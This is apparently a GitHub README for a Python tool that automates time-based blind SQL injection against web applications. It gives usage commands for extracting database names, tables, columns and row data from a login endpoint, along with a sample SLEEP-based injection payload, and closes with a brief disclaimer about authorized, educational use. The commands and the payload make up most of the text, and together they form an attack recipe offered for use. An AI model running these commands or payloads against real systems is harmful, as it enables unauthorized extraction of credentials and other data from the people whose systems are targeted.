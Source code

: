 # TimeQLInjection

**TimeQLInjection** is a Python-based tool for exploiting time-based blind SQL injection vulnerabilities. It automates the process of extracting sensitive information like database names, tables, columns, and data from vulnerable web applications.

## Features

- Supports both **GET** and **POST** HTTP methods.
- Dynamically determines the length of the target data.
- Extracts:
  - Database names
  - Table names
  - Column names
  - Data from specific tables and columns
- Configurable payloads for flexibility.
- Works with time delays to infer information.

## Requirements

- Python 3.7+
- `requests` library

Install the required library:
```bash
pip install requests
```

## Usage
Run the script with the following parameters:
```
python timeqli.py --url <URL> --method <HTTP_METHOD> --payload <PAYLOAD_FILE> --delay <DELAY_IN_SECONDS> --mode <MODE> [--table <TABLE>] [--column <COLUMN>]
```

### Extract Database Name
```
python timeqli.py --url "http://example.com/login" --method POST --payload payload.txt --delay 5 --mode database
```

### Extract Table Names
```
python timeqli.py --url "http://example.com/login" --method POST --payload payload.txt --delay 5 --mode tables
```

### Extract Column Names
```
python timeqli.py --url "http://example.com/login" --method POST --payload payload.txt --delay 5 --mode columns --table users
```

### Extract Data
```
python timeqli.py --url "http://example.com/login" --method POST --payload payload.txt --delay 5 --mode data --table users --column username
Payload File Example (payload.txt)
admin' AND (SELECT IF(SUBSTRING(DATABASE(),<position>,1)='<character>', SLEEP(5), 0)) AND '1'='1
Replace <position> and <character> dynamically in the script.
```

#### Notes
- Use this tool responsibly and only with proper authorization.
- This tool is intended for educational and ethical penetration testing purposes.

